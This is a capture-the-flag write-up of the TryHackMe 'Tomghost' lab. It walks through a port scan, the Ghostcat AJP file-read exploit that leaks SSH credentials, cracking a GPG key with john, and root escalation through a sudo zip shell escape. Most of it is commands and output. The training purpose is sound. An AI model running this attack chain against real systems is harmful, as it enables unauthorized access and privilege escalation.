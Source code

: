 # Tomghost

Starting with basic recon:
```sh
nmap -sV $ip -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 08:19 CEST
Nmap scan report for 10.10.46.67
Host is up (0.078s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got a few services running but I can instantly see an application running on Port `8080` named Tomcat. <br/>
So I would just make a quick browser search for known exploits. <br/>

![grafik](https://github.com/Aryt3/writeups/assets/110562298/837e1e74-f530-4a59-8606-12636c3a5728)

Now I could take a look around the website and try to find something but there seem to be a lot of exploits for Tomcat. <br/>
So this leads me to https://www.exploit-db.com/exploits/48143. <br/>
Using the exploit:
```sh
python2 exploit.py 10.10.46.67 -p 8009 -f WEB-INF/web.xml
Getting resource at ajp13://10.10.46.67:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

After successfully retrieving user creds I try to login:
```sh
ssh skyfuck@$ip       
The authenticity of host '10.10.46.67 (10.10.46.67)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:7: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.46.67' (ED25519) to the list of known hosts.
skyfuck@10.10.46.67's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ whoami
skyfuck
```

Taking a look around:
```sh
skyfuck@ubuntu:~$ pwd
/home/skyfuck
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

Before taking a closer look at those files I want to look around further.
```sh
skyfuck@ubuntu:~$ ls /home/
merlin  skyfuck
skyfuck@ubuntu:~$ ls /home/merlin
user.txt
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{REDACTED}
```

Seems like we got our first flag. <br/>
The next thing would be to escalate priviledges.
```sh
skyfuck@ubuntu:~$ sudo -l
[sudo] password for skyfuck: 
Sorry, user skyfuck may not run sudo on ubuntu.
```

Now this didn't work, I could look around more but my guess is that I have to use the 2 files from earlier. <br/>
Copying the files to my local machine:
```sh
scp skyfuck@$ip:/home/skyfuck/* .                               
skyfuck@10.10.46.67's password: 
credential.pgp                                                                          100%  394     2.7KB/s   00:00    
tryhackme.asc                                                                           100% 5144    34.9KB/s   00:00
```

After some research I found a way to use john to bruteforce the .gpg file.
```sh
└─# gpg2john tryhackme.asc > abc.gpg

File tryhackme.asc
                                                                                                                    
└─# ls
abc.gpg  credential.pgp  tryhackme.asc

└─# cat abc.gpg       
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

└─# john --wordlist=Desktop/rockyou.txt abc.gpg            
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
No password hashes left to crack (see FAQ)

└─# john --show abc.gpg                        
tryhackme:alexandru:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

1 password hash cracked, 0 left

└─# gpg --import tryhackme.asc      
gpg: /root/.gnupg/trustdb.gpg: trustdb created
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

┌──(root㉿kali)-[/home/kali/tryhackme/tomghost]
└─# gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j   
```

Like this I was able to get the password for user merlin, so now I only need to switch to this user.
```sh
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ whoami
merlin
```

The only thing left now is priv esc so let's see what we got elevated permissions for.
```sh
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

So seeing we can execute the binary zip as root we can take a look at gtfobins. <br/>
Here we find several ways to exploit this binary: https://gtfobins.github.io/gtfobins/zip/.
```sh
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
```

Getting the last flag:
```sh
# cd /root/
# ls
root.txt  ufw
# cat root.txt  
THM{REDACTED}
```
